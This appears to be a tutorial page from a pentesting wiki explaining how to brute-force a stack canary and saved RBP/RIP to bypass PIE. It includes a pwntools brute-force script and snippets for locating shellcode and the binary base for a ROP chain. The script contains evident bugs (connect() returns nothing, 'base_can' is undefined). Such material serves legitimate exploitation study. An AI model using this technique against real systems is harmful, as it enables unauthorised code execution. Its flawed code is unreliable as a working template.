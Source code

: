 # BF Addresses in the Stack

{{#include ../../../../banners/hacktricks-training.md}}

**If you are facing a binary protected by a canary and PIE (Position Independent Executable) you probably need to find a way to bypass them.**

![](<../../../../images/image (144).png>)

> [!NOTE]
> Note that **`checksec`** might not find that a binary is protected by a canary if this was statically compiled and it's not capable to identify the function.\
> However, you can manually notice this if you find that a value is saved in the stack at the beginning of a function call and this value is checked before exiting.

## Brute-Force Addresses

In order to bypass the PIE you need to **leak some address**. And if the binary is not leaking any addresses the best to do it is to **brute-force the RBP and RIP saved in the stack** in the vulnerable function.\
For example, if a binary is protected using both a **canary** and **PIE**, you can start brute-forcing the canary, then the **next** 8 Bytes (x64) will be the saved **RBP** and the **next** 8 Bytes will be the saved **RIP.**

> [!TIP]
> It's supposed that the return address inside the stack belongs to the main binary code, which, if the vulnerability is located in the binary code, will usually be the case.

To brute-force the RBP and the RIP from the binary you can figure out that a valid guessed byte is correct if the program output something or it just doesn't crash. The **same function** as the provided for brute-forcing the canary can be used to brute-force the RBP and the RIP:

```python
from pwn import *

def connect():
    r = remote("localhost", 8788)

def get_bf(base):
    canary = ""
    guess = 0x0
    base += canary

    while len(canary) < 8:
        while guess != 0xff:
            r = connect()

            r.recvuntil("Username: ")
            r.send(base + chr(guess))

            if "SOME OUTPUT" in r.clean():
                print "Guessed correct byte:", format(guess, '02x')
                canary += chr(guess)
                base += chr(guess)
                guess = 0x0
                r.close()
                break
            else:
                guess += 1
                r.close()

    print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
    return base

# CANARY BF HERE
canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary

# PIE BF FROM HERE
print("Brute-Forcing RBP")
base_canary_rbp = get_bf(base_canary)
RBP = u64(base_canary_rbp[len(base_canary_rbp)-8:])
print("Brute-Forcing RIP")
base_canary_rbp_rip = get_bf(base_canary_rbp)
RIP = u64(base_canary_rbp_rip[len(base_canary_rbp_rip)-8:])
```

The last thing you need to defeat the PIE is to calculate **useful addresses from the leaked** addresses: the **RBP** and the **RIP**.

From the **RBP** you can calculate **where are you writing your shell in the stack**. This can be very useful to know where are you going to write the string _"/bin/sh\x00"_ inside the stack. To calculate the distance between the leaked RBP and your shellcode you can just put a **breakpoint after leaking the RBP** an check **where is your shellcode located**, then, you can calculate the distance between the shellcode and the RBP:

```python
INI_SHELLCODE = RBP - 1152
```

From the **RIP** you can calculate the **base address of the PIE binary** which is what you are going to need to create a **valid ROP chain**.\
To calculate the base address just do `objdump -d vunbinary` and check the disassemble latest addresses:

![](<../../../../images/image (145).png>)

In that example you can see that only **1 Byte and a half is needed** to locate all the code, then, the base address in this situation will be the **leaked RIP but finishing on "000"**. For example if you leaked `0x562002970ecf` the base address is `0x562002970000`

```python
elf.address = RIP - (RIP & 0xfff)
```

{{#include ../../../../banners/hacktricks-training.md}}



